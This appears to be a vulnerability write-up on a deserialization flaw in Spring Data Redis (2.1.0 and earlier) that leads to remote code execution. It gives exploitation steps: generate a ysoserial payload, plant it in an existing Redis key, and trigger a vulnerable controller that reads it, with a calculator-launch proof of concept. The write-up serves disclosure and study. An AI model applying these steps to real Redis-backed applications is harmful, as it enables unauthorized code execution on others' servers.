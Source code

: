 Spring Data Redis, part of the larger Spring Data family, provides easy configuration and access to Redis from Spring applications.

Spring Data Redis first serializes data before writing data to Redis. By default, Java native serialization is used for serialization, more see [here](https://github.com/spring-projects/spring-data-redis/blob/master/src/main/asciidoc/reference/redis.adoc#serializers). When Spring Data Redis retrieves data from Redis, the stored bytecode is deserialized, and the target class is not checked or filtered during deserialization, which can lead to remote code execution.

# Exploitation

1. Generate payload with [ysoserial](https://github.com/frohoff/ysoserial)
2. Write the generated payload in Redis:

    ```java
    // Try to choose a key that already exists in Redis so that code execution can start when Spring retrieves data
    redis.set("\xac\xed\x00\x05t\x00\brebeyond", payload);
    ```

3. Trigger or wait for Spring to retrieve data, example of vulnerable code:

    ```java
    @Controller
    public class HelloController {
   
        protected RedisTemplate<Serializable, Serializable> redisTemplate;

        @GetMapping("/")
        public String index() {
            Object result = redisTemplate.opsForValue().get("rebeyond");
            return "index";
        }
    }
    ```

4. Server starts calculator successfully:

    ![](img/redis-rce-calc-poc.png)
    
    The call stack is as follows:
    
    ![](img/redis-rce-stacktrace-poc.png)

# References

- [Spring Data Redis <=2.1.0 Deserialization Vulnerability](https://xz.aliyun.com/t/2339)